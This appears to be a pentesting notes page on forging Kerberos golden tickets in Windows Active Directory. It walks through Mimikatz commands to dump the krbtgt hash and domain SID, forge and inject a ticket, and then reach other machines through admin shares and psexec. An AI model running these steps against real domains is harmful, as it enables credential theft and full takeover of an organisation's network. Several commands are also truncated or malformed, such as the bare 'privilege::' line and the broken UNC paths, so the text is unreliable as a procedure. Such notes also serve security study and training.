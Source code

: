 ```yaml
---
description: >-
  We can use this to access anything in the network if we have KTGT(KERBEROS
  TICKET GRANTING TICKET)
---
```


# Golden Tickets

RUN MIMIKATZ IN THE WINDOWS

then set the privilege mode to debug

```
privilege::
```

```
lsadump::lsa /inject /name:<account name>
```

Copy the SID of the domain the ntlm hash To generate a ticket

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

then in the mimikatz terminal create a golden ticket

```
kerberos::golden /User:<anyNameNeedNotToExist /domain:<Domain name> /sid:<the sid from above> /krbtgt:<hash> /id:500 /ptt
```

ptt- pass the ticket

to run

```
misc::cmd
```

Opens a terminal session

&#x20;To run anycommand against a user

```
<command or script> \\<user\
```

To ls&#x20;

```
dir \\user\$c
```

to open a terminal in that machine

```
psexec.exe \\user\ cmd.exe
```

